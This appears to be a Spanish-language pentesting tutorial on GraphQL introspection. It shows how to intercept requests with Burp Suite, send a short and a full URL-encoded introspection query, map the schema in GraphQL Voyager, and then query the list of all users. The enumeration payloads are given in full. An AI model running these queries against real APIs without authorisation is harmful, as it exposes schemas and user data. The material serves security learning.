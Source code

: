 
# Introducción 
  
La introspección en GraphQL es una característica que permite a los desarrolladores explorar dinámicamente el esquema de una API GraphQL para comprender sus tipos de datos y operaciones disponibles. Sin embargo, si no se controla adecuadamente, puede convertirse en una vulnerabilidad de seguridad al exponer información confidencial del esquema de la API a posibles atacantes, lo que podría facilitar ataques dirigidos.
# Ejemplo de Introspection:

Tenemos un sitio web donde se nos muestran las publicaciones que han hecho los usuarios.

![[Pasted image 20240224093141.png]]

Al interceptar esto con Burp Suite, podemos ver que se está realizando una solicitud por POST a GraphQL, donde se hace una consulta para saber cuáles publicaciones se han hecho, el título de la publicación, el contenido de la publicación y el usuario que hizo la publicación, y da como respuesta la información solicitada.

![[Pasted image 20240224094307.png]]

Toda esta información inicialmente va a GraphQL. Entonces, podemos enviar una consulta maliciosa que enumera todos los tipos existentes, como la siguiente:

```graphql
query={__schema{types{name,fields{name}}}}
```

Al usar esta consulta dentro de GraphQL, nos mostrará todos los tipos existentes.

![[Pasted image 20240224095105.png]]

También podemos enumerar el esquema de todas las bases de datos haciendo lo siguiente. Primero, tenemos que introducir esta consulta en la URL:

```
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```

Y damos enter.

![[Pasted image 20240224101719.png]]

Nos está dando varios errores. Entonces, lo que tenemos que hacer es modificar la consulta y poner `__` antes de cada tipo para que ahora sí se interprete bien. Quedaría algo así:

![[Pasted image 20240224102808.png]]
![[Pasted image 20240224102858.png]]

Listo, ahora con estas modificaciones, podemos dar al botón de ejecutar y al parecer todo está bien, y nos ha dado como respuesta todo el esquema.

![[Pasted image 20240224103445.png]]

Ahora, con ayuda de [GraphQL Voyager](https://graphql-kit.com/graphql-voyager/), vamos a poder ver todo el esquema de manera más gráfica, de manera de diagrama. Lo único que tenemos que hacer es copiar la respuesta de la consulta que hicimos anteriormente. Luego, entramos a este sitio web [GraphQL Voyager](https://graphql-kit.com/graphql-voyager/). Después, ya en el sitio, damos clic en el siguiente botón:

![[Pasted image 20240224104301.png]]

Seguidamente, nos vamos a la parte de introspección y pegamos la respuesta de la consulta en el campo, para después darle clic al botón "Display".

![[Pasted image 20240224113909.png]]

Ahora podremos ver en forma de diagrama toda la estructura de la base de datos.

![[Pasted image 20240224114116.png]]

Ahora, sabiendo cómo es el esquema, lo que podemos hacer es modificar la consulta para ver diferentes cosas, como en el caso de los usuarios.

![[Pasted image 20240224115225.png]]

Y listo, ahora podemos ver todos los usuarios que existen.



Si deseas obtener más información sobre la seguridad en GraphQL y cómo prevenir posibles vulnerabilidades, puedes consultar: [HackTricks - Pentesting de GraphQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)